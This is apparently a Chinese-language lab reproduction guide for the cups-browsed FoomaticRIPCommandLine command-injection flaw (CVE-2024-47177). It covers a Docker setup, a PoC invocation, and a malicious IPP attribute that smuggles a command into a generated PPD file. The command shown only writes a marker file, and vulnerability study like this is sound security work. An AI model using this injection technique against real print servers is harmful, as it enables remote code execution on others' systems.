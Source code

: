 # OpenPrinting Cups-Browsed PDD FoomaticRIPCommandLine 参数导致远程命令执行漏洞（CVE-2024-47177）

OpenPrinting CUPS（通用Unix打印系统）是为类Unix操作系统开发的开源打印系统。它允许计算机充当打印服务器，高效管理本地和网络打印机。Cups-Browsed是CUPS系统的一部分，是一个专门用于浏览网络上其他CUPS服务器共享的远程打印机的守护进程。它可以自动发现和配置网络打印机，让用户更容易访问和使用网络上共享的打印资源，无需手动设置。

在Cups-Browsed 2.0.1及之前的版本中，存在一个由PPD（PostScript打印机描述）文件中的`FoomaticRIPCommandLine`参数处理不当引起的问题。攻击者可以通过创建一个恶意的IPP（互联网打印协议）服务器来利用这个漏洞，向易受攻击的Cups-Browsed实例发送精心制作的打印机信息，然后在运行易受攻击的Cups-Browsed的系统上执行任意命令。

参考链接：

- <https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/>
- <https://github.com/OpenPrinting/cups-browsed/security/advisories/GHSA-rj88-6mr5-rcw8>

## 漏洞环境

执行如下命令启动一个2.4.7版本CUPS服务器和2.0.1版本Cups-Browsed服务器：

```
docker-compose up -d
```

环境启动后，可以通过`http://<your-ip>:631`访问CUPS的web界面。

## 漏洞复现

首先，下载[evil-ipp-server](https://github.com/vulhub/evil-ipp-server)项目并运行[poc.py](https://github.com/vulhub/evil-ipp-server/blob/master/poc.py):

```
python poc.py [evil-ipp-server-ip] [target-ip]
```

这个脚本会在`[evil-ipp-server-ip]`上启动一个恶意的IPP服务器，并向目标机器`[target-ip]`上的Cups-Browsed服务发送一个UDP数据包。

一旦Cups-Browsed接收到请求，它将尝试连接到恶意的IPP服务器并收到恶意的`printer-privacy-policy-uri`属性，该属性中包含恶意payload，其结构如下：

```python
(
    SectionEnum.printer,
    b'printer-privacy-policy-uri',
    TagEnum.uri
): [b'https://www.google.com/"\n*FoomaticRIPCommandLine: "' +
    b'echo 1 > /tmp/I_AM_VULNERABLE' +
    b'"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'],
```

然后，Cups-Browsed会在`/tmp/`目录下创建一个临时PPD文件，我们的payload会被注入到这个文件中。下图是相关的Cups-Browsed日志：

![](1.png)

此时，命令还未执行，因为我们需要至少一个打印任务来触发命令的执行。

打印任务可能来自于正常用户，也可以来自攻击者。如果TCP 631端口开发，我们可以使用浏览器访问，并找到刚才增加的恶意IPP打印机，并创建一个“打印测试页面”的打印任务。

![](2.png)

任务执行后，进入容器即可发现，`echo 1 > /tmp/I_AM_VULNERABLE`命令已经成功执行：

![](3.png)
